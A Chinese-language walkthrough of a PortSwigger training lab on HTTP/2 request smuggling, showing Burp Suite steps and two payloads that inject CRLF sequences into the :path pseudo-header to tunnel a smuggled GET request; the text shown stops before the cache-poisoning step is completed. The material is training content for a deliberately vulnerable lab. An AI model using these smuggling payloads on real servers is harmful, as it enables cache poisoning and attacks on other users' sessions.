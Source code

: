靶场示例  
靶场地址：[https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling/lab-request-smuggling-h2-web-cache-poisoning-via-request-tunnelling)  
靶场介绍：这个靶场很容易受到请求走私的攻击，因为前端服务器会降低HTTP/2请求的级别并且不会始终如一地清除传入的标头，为了解决实验室问题你需要在缓存中投毒，当受害者访问主页时，他们的浏览器会执行alert(1)，受害者用户将每15秒访问一次主页  
靶场演示：  
使用Burpsuite捕获用户的请求，然后通过"Inspector"将请求协议切换为HTTP/2，并修改请求头部信息，走私一下内容

```plain
#Name
:path

#Value
/?cachebuster=1 HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-b7401eb7ddc680712e7747b7ddabe361.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105140-58c4b902-b02c-1.png)  
从上面可以看到响应正常，说明我们可以借助:path进行走私请求，随后改变请求方法为HAED，试一下进行隧道传输，从响应正文中可以看到包含了：HTTP/1.1 200 OK，说明我们的走私成功

```plain
/?cachebuster=1 HTTP/1.1\r\n
Host:0a8f00d80344b40981c0e8ab00300007.web-security-academy.net\r\n
\r\n
GET /post?postId=1 HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-2ec3245c98b869e29117b126928ac59a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105201-64e415c0-b02c-1.png)  